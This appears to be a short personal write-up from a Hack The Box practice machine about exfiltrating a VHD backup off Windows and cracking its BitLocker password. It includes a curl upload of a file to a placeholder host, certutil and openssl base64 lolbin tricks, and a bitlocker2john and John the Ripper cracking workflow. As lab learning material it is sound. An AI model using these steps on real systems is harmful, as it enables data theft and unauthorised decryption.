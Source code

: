 ```yaml
---
title: "File Exfile on Windows"
date: 2024-04-19
---
```




# File Exfil from Windows




While practicing on a hack the box machine I came across a VHD backup. Juicy! I thought lets just transerfer it over and crack it. 
Well to my newbie brain I first tried scp but there was no ssh. Shoot lets try ftp, and nope. So what about python? No ruby, no php and no python. 

I tried setting up an upload server to no avail the upload was proxied and was taking ages just for a tiny file. When the file finally downloaded it was corrupted!!! WTF What now? 
```shell
curl -X POST http://HOST/upload -H -F 'files=@file.txt' 
```

Well, using some lolbin techniques I tried certutil but I wasn't able to accsess it.

```shell
certutil -encode data.txt tmp.b64 && findstr /v /c:- tmp.b64 > data.b64
```

Looking around I had priveledged access to openssl!! Looking for a lolbin I used this to finally transfer the VHD over to my attack host!

```shell
openssl base64 -in <infile> -out <outfile>
```


### Mount Windows VHD on attack linux machine
If you've acquired a VHD file try this
#### Unzip VHD
```shell
7z x Backup.vhd 

...SNIP...

'1.partition.img' 
```
#### Extract Hashes
```
bitlocker2john -i '1.partition.img' 
```
#### Create Hash File
```shell
echo '$bitlocker$0$16$...SNIP...4443a' > bitlock
```
#### Crack with JTR
```shell
john --wordlist=pass.list bitlock
```

#### Mount VHD and use cracked Pass
```
sudo modprobe nbd 
sudo qemu-nbd -c /dev/nbd0 Backup.vhd
```
